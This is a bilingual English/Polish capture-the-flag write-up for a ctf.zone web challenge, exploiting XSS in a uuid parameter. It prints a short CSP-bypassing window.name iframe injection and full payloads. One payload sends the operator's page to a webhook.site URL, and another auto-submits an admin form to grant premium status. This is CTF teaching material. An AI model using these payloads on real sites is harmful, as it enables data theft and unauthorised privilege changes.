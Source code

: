 # MMORPG 3000 (web)

## Analysis
In this challenge we can see a simple website imitating a web store with stuff for magicians:
![](image6.png)
The registration form contains standard login and password fields and “name” field that fill be visible in our profile:
![](image4.png)
![](image8.png)

Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:
![](image3.png)

The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.
![](image7.png)

Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```

## XSS
We can find a real XSS in uid parameter of profile.php script:
![](image1.png)

Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```
![](image2.png)

## Getting the flag
The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:
![](image5.png)

Let’s write a pyaload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```



## Rozpoznanie
W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:
![](image6.png)

Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:
![](image4.png)
![](image8.png)

Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:
![](image3.png)

Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:
![](image7.png)

Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```


## XSS
Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:
![](image1.png)

Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```

![](image2.png)
## No to flaga!
Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:
![](image5.png)

Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```






